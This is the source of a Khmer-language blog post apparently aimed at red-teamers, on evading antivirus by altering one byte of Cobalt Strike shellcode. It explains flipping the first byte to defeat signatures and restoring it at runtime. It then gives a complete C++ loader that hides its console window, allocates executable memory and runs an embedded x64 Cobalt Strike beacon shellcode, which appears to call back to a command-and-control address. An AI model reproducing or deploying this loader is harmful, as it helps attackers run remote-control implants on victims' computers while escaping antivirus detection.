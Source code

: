 ```yaml
---
title: "1 Byte Changed Evading Antivirus"
date: 2022-12-03T21:01:06+07:00
description: Evading Antivirus ដោយប្រើប្រាស់បច្ចេកទេសប្ដូរតម្លៃលេខគោលពីរ
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- c-shellcode
- bypass
series:
- CobaltStrike
image: images/feature2/article-1.png
---
```


#### 1 Byte Evading

ដំបូងយើងត្រូវបង្កើត Shell Code ជាប្រភេទភាសារ C នៅក្នុង Cobalt Strike ដូចរូបខាងក្រោម៖

![c-shellcode](/en/posts/img/2022/12/1-byte-av-evading/c-shellcode.jpg)


សូមចាប់អារម្មណ៏ត្រង់ Byte ដំបូងគេនៃ Code គឺ <span style="color:grey">\xfc</span> ។
តស់!!! មកកែប្រែចំនួន Byte ដូចខាងក្រោម៖
<ul style="list-style-type:square">
	<li>ប្ដូរ <span style="color:grey">\xfc</span> ទៅជាចំនួនតម្លៃ Byte ផ្សេង។ ឧ. <span style="color:grey">\xfd, \x3a, \x6f\</span> ។ល។</li>
	<li>រក្សាតម្លៃដើមដែលត្រឹមត្រូវនៅក្នុង Char Variable => <span style="color:grey">char first[] = "<span style="color:red">\xfc</span>";</span></li>
	<li>Build ឯកសារ exe ជាមួយកម្មវិធីអានកូដជាការស្រេច។</li>
</ul>

ខាងក្រោមជា Source Code សម្រាប់អ្នកដែលចង់សាកល្បងវិធីសាស្ត្រមួយនេះ៕

{{< highlight cpp "linenos=table" >}}
//payload.cpp
#include "stdafx.h"
#include "Windows.h"
#include <iostream>

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
{{< / highlight >}}

<b>ឯកសារយោង៖</b> [ired](https://www.ired.team/offensive-security/defense-evasion/evading-windows-defender-using-classic-c-shellcode-launcher-with-1-byte-change)